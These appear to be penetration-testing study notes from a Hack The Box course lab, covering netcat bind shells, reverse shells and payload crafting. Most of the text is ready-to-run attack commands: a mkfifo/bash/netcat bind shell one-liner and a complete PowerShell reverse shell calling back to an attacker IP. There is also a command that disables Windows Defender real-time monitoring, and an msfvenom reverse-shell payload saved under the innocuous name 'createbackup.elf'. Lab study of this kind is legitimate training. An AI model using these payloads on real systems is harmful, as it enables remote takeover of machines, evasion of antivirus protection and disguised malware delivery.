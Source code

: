 # Bind Shells
![](picture_CPTS/bindshell.webp)
## connect server and client by netcat.
**1.SERVER  OPEN PORT 7777**
```shell
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
```
**2.CLIENT CONNECT TO SERVER BY PORT 7777**
```shell
015coding@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```
**3.SERVER CONFIRM**
```shell
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!  
```
**4.CLIENT MESSAGE "HELLO WORLD"**
```shell
015coding@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
HELLO WORLD  
```
**5.SERVER RECEIVE MESSAGE**
```shell
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
HELLO WORLD  
```
## <mark style="background: #FFB86CA6;">BIND SHELL</mark>
**1.Target**
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
 `10.129.41.200` -> Target IP<br>
 **2.ATTACKER**
 ```shell
nc -nv 10.129.41.200 7777
```

# Reverse Shells
![](picture_CPTS/reverseshell.webp)
[reverse shell]([Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))
## reverse shell
**1.Target**
```shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

**2.Attacker**
```shell
sudo nc -lvnp 443
```

# Crafting Shells
use `msfvenom` to craft
```shell
msfvenom -l payloads
```
`-l` -> list payload <br>
and this is how to build
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
`-p` -> select payload <br>
`-f` -> format file to export<br>
how to find what that request just go to Metasploit ,search and use `options`

